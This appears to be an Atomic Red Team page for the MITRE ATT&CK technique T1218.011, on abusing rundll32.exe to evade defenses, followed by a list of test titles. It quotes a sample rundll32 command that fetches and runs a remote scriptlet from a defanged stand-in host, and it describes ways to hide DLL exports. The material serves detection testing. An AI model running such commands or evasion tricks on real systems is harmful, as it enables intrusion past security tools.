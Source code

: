 # T1218.011 - Signed Binary Proxy Execution: Rundll32
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/011)
<blockquote>

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute.(Citation: Trend Micro CPL) For example, [ClickOnce](https://attack.mitre.org/techniques/T1127/002) can be proxied through Rundll32.exe.

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 execute VBscript command using Ordinal number](#atomic-test-3---rundll32-execute-vbscript-command-using-ordinal-number)

- [Atomic Test #4 - Rundll32 advpack.dll Execution](#atomic-test-4---rundll32-advpackdll-execution)

- [Atomic Test #5 - Rundll32 ieadvpack.dll Execution](#atomic-test-5---rundll32-ieadvpackdll-execution)
